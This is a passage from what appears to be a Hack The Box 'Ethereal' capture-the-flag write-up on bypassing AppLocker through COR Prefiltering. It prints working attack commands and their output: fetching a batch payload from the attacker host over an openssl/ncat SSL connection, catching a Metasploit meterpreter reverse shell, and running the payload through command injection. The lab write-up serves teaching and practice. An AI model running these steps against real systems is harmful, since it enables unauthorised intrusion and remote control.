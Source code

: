 
Now I’ll upload that as well:

    
    
    ethereal> quiet c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 > c:\users\public\desktop\shortcuts\bery.bat
    
    
    
    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < bery.bat
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::73
    Ncat: Listening on 0.0.0.0:73
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49715.
    

### Execute

Just as in my test, I’ll start a handler for this incoming callback:

    
    
    msf5 > handler -H tun0 -P 136 -p windows/x64/meterpreter/reverse_tcp
    [*] Payload handler running as background job 4.
    
    [*] Started reverse TCP handler on 10.10.14.14:136
    

I’ll run the following to kick off the execution:

    
    
    ethereal> quiet cmd /c cmd < \users\public\desktop\shortcuts\bery.bat
    

And get a callback:

    
    
    msf5 > [*] Sending stage (206403 bytes) to 10.10.10.106
    [*] Meterpreter session 5 opened (10.10.14.14:136 -> 10.10.10.106:49716) at 2019-03-13 07:05:23 -0400
    msf5 > sessions -i 5
    [*] Starting interaction with 5...
    
    meterpreter > getuid 
    Server username: ETHEREAL\alan
    

I had to play a bit with how to get the bat file to kick off. It didn’t work
when issued without the `quiet` command. I also needed the `cmd /c cmd <` to
get it to run. Sometimes when your RCE is a weird injection, you have to try a
few things to get something to run.

## Conclusion

COR Prefiltering is an interesting method to bypass Applocker and get
arbitrary code execution on a locked down system. In Ethereal, I could use
this new shell to skip the rest of the box and go to System with JuicyPotato.
Or I could go the normal path and just have easy uploads and not have to worry
about killing shells and relaunching listeners in time to catch user action.

[« Shell Development](/2019/03/09/htb-ethereal-shell.html)

[](/2019/03/15/htb-ethereal-cor.html)

